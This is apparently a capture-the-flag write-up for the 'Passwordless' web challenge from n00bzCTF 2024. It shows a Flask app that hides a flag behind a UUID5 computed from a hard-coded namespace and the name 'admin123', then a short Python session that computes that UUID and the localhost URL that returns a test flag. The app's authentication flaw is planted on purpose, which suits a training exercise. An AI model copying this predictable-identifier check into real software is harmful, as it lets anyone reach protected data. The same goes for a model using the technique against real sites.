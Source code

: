 ```yaml
---
title: "2024 n00bzCTF"
date: 2024-08-03T18:26:59-05:00
tags: ['writeup','web']
---
```


## Challenges
- [Passwordless](#passwordless)

### Passwordless
Tired of storing passwords? No worries! This super secure website is passwordless!
- - -
For this challenge, we had to exploit a program weakness.

{{< highlight py app.py >}}
#!/usr/bin/env python3
from flask import Flask, request, redirect, render_template, render_template_string
import subprocess
import urllib
import uuid
global leet

app = Flask(__name__)
flag = open('/flag.txt').read()
leet=uuid.UUID('13371337-1337-1337-1337-133713371337')

@app.route('/',methods=['GET','POST'])
def main():
    global username
    if request.method == 'GET':
        return render_template('index.html')
    elif request.method == 'POST':
        username = request.values['username']
        if username == 'admin123':
            return 'Stop trying to act like you are the admin!'
        uid = uuid.uuid5(leet,username) # super secure!
        return redirect(f'/{uid}')

@app.route('/<uid>')
def user_page(uid):
    if uid != str(uuid.uuid5(leet,'admin123')):
        return f'Welcome! No flag for you :('
    else:
        return flag

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337)
{{< /highlight >}}

Looking at the source, the flag can be retrieved via the `user_page()` route. The route compares the **UID** input from the user to the hard-coded **UUID5**.

#### Solution
In a Python terminal...
{{< highlight bash bash >}}
>>> import uuid
>>> leet=uuid.UUID('13371337-1337-1337-1337-133713371337')
>>> str(uuid.uuid5(leet, 'admin123'))
'3c68e6cc-15a7-59d4-823c-e7563bbb326c'
>>>
{{< /highlight >}}

Now that we have our target **UID**, let's send it to the route: `http://127.0.0.1:1337/3c68e6cc-15a7-59d4-823c-e7563bbb326c`

![Image of flag](passwordless-solve.png)

Voila! We have our flag: `n00bz{f4k3_fl4g_f0r_t35t1ng}`
